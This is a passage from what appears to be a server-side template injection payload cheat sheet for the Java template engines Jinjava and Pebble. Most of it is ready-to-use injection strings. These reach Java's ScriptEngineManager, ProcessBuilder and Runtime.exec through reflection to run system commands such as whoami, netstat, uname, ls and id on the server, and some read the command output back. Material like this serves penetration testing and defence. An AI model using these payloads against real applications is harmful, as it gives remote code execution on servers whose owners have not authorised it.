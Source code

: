 ### Jinjava - Basic Injection

```python
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

### Jinjava - Command Execution

Fixed by [HubSpot/jinjava PR #230](https://github.com/HubSpot/jinjava/pull/230)

```ps1
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

---

## Pebble

[Official website](https://pebbletemplates.io/)

> Pebble is a Java templating engine inspired by [Twig](./PHP.md#twig) and similar to the Python [Jinja](./Python.md#jinja2) Template Engine syntax. It features templates inheritance and easy-to-read syntax, ships with built-in autoescaping for security, and includes integrated support for internationalization.

### Pebble - Basic Injection

```java
{{ someString.toUPPERCASE() }}
```

### Pebble - Code Execution

Old version of Pebble ( < version 3.0.9): `{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`.

New version of Pebble :

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```